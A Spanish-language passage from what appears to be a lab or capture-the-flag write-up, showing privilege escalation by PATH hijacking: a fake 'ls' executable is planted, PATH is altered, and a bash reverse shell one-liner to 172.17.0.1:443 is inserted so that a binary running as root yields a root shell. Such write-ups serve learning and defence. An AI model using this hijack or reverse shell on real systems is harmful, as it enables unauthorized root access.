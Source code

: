 > ![](<../images/Pasted image 20240914173155.png>)

En este punto lo que haremos será crear un fichero con permisos de ejecución y con el nombre `ls`.

Cambiaremos nuestra variable PATH para intentar un [PATH Hijacking](<../../🐱‍💻 Introducción al Hacking/🧗‍♂️ Técnicas de escalada de privilegios/PATH Hijacking/PATH Hijacking.md>), es decir introduciremos nuestra home por delante de todos los otros directorios.

```bash
export PATH=/home/johntheripper:$PATH
```

![](<../images/Pasted image 20240914173454.png>)

Volveremos a ejecutar el binario y vemos que nos muestra el output del comando **whoami**, pues dicho comando se encuentra definido dentro del ejecutable `ls`.

![](<../images/Pasted image 20240914173503.png>)

En este punto lo que debemos hacer es introducir el siguiente contenido en el ejecutable `ls` para enviarnos una [Reverse Shell](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Reverse Shell.md>).

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![](<../images/Pasted image 20240914173555.png>)

Nos pondremos en escucha con [Consideraciones previas](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Consideraciones previas.md# NetCat>) y al ejecutar el archivo `./showfiles` recibiremos la [Reverse Shell](<../../🐱‍💻 Introducción al Hacking/💣 Conceptos de explotación/Formas enviarnos una bash 💻/Reverse Shell.md>) como el usuario **root**.
